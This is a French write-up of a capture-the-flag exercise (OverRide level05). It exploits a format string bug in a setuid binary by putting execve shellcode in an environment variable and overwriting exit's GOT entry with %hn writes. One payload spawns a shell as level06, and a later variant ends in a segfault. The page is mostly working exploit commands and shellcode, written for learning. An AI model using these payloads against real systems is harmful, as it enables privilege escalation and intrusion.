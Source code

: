 iRELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05

level05@OverRide:~$ file level05 
level05: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x1a9c02d3aeffff53ee0aa8c7730cbcb1ab34270e, not strippe

Le programme actuel recupere la string de gets et transforme les minuscules en majuscules.
Le premier argument du printf a *main+195 est notre string, ce qui correspond a une faille de type format string

level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070

Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10

export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

(gdb) x/s *((char **)environ+0)
0xffffd74a:      "EXPLOIT=<...>"

adresse exploit: 0xffffd74a
(gdb) p/d 0xffffd74a+200
$1 = 4294957074


(gdb) p/x 0xffffd74a+200
$2 = 0xffffd812
(gdb) x/s 0xffffd812

(gdb) p/d 0xd812
$4 = 55314
(gdb) p/d 0xd812-8
$5 = 55306

gdb-peda$ p/d 0xffff
$5 = 65535
(gdb) p/d 0xffff-55314
$6 = 10221

adresse exit: 0x80497e0

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :
https://cs155.stanford.edu/papers/formatstring-1.2.pdf

Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin de ne pas depasser cette limite.

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt> ; Size == 100
(gdb) x/wx $esp
0xffffd470:     0xffffd498
(gdb) x/s 0xffffd498
0xffffd498:      ""


(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05
<...>
whoami
level06


(python -c 'print(len("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn"))')
34


p/d 100-8-23-13-13
$8 = 43 NOPs

Je recommence mes calculs avec un environnement vierge.

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt>
(gdb) x/wx $esp
0xffffd690:     0xffffd6b8
(gdb) x/s 0xffffd6b8
0xffffd6b8:      ""

(gdb) p/x 0xffffd6b8+8+21
$2 = 0xffffd6d5

(gdb) p/d 0xd6d5
$3 = 54997
(gdb) p/d 0xd6d5-8
$4 = 54989

(gdb) p/d 0xffff
$5 = 65535
(gdb) p/d 0xffff-54997
$6 = 10538

(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "\x90" * (100-8-23-13-13) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%.54989u%10$hn" + "%.10538u%11$hn")'; cat) | ./level05
Segmentation fault (core dumped)

Je pense qu il ny a pas assez de NOPs de disponible afin de pouvoir etre sur qu une adresse arrive dans les NOPs.
